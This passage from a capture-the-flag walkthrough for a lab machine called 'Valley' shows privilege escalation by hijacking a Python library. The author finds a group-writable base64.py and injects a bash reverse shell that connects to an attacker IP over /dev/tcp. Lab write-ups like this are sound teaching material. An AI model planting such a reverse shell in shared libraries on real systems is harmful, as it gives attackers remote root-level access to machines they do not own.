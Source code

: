 Now, it's time to search write mode that we just add our **reverse shell**.

We find our writable file (base64.py) to add reverse shell by using 'find' command as below. 

```
valleyDev@valley:~$ find / -writable 2>/dev/null | grep "python"
valleyDev@valley:~$ ls -alh /usr/lib/python3.8
total 4.8M
drwxrwxr-x  30 root valleyAdmin  20K Mar 20  2023 .
drwxr-xr-x 112 root root        4.0K Mar 20  2023 ..
-rw-r--r--   1 root root        4.4K Mar 13  2023 abc.py
-rw-r--r--   1 root root         33K Mar 13  2023 aifc.py
-rw-r--r--   1 root root         477 Mar 13  2023 antigravity.py
-rw-r--r--   1 root root         95K Mar 13  2023 argparse.py
-rw-r--r--   1 root root         19K Mar 13  2023 ast.py
-rw-r--r--   1 root root         12K Mar 13  2023 asynchat.py
drwxr-xr-x   3 root root        4.0K Mar 20  2023 asyncio
-rw-r--r--   1 root root         20K Mar 13  2023 asyncore.py
-rwxrwxr-x   1 root valleyAdmin  20K Mar 13  2023 base64.py

```

Unfortunatly, the only writable file in python is `base64.py`, and we need to be in the `valleyAdmin` group, as valleyDev doesn't have any python wirtable destination.

Having credentials for `valley`, part of that group:

```
valleyDev@valley:~$ groups valley
valley : valley valleyAdmin
```

We connect using this user.

```
valley@valley:/home/valleyDev$ whoami
valley
valley@valley:/home/valleyDev$ cd /home/valley
valley@valley:~$ 
```

check for writable files:

```
valley@valley:~$ find / -writable 2>/dev/null | grep "python"
/usr/lib/python3.8
/usr/lib/python3.8/base64.py
```

From there, let's edit the `base64.py` file to add the reverse shell code :

```py
...
import os

os.system('/bin/bash -c \'bash -i >& /dev/tcp/10.9.170.41/4242 0>&1\'')
...
```
